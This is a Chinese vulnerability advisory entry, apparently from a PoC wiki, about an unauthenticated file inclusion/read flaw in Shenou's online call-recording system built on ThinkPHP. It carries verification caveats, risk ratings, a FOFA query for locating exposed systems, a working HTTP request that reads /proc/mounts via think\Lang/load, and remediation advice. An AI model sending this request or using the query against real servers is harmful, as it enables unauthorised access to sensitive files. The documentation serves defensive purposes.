

# 申瓯在线录音管理系统/ThinkPHP Lang load文件包含/读取

## 条目说明

- 对象与具体问题：申瓯在线录音管理系统/ThinkPHP；Lang load文件包含/读取
- 版本、配置及部署条件：ThinkPHP版本/路由配置及Linux环境未知
- 认证与权限前提：匿名声称
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 应映射嵌入ThinkPHP组件与产品版本，不把所有录音系统同名判断受影响
- 读取非PHP文件不证明执行任意代码，文件包含与读取能力区分
- 在野已知无来源、截图未核，缺修复

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

## 漏洞描述

申瓯通信设备在线录音管理系统-index-文件包含漏洞，未经身份验证的攻击者可以通过该漏洞获取服务器敏感信息。

## 影响版本

在线录音管理系统

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：title="在线录音管理系统"

```http
GET /callcenter/public/index.php?s=index/\think\Lang/load&file=/proc/mounts HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

```




## 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
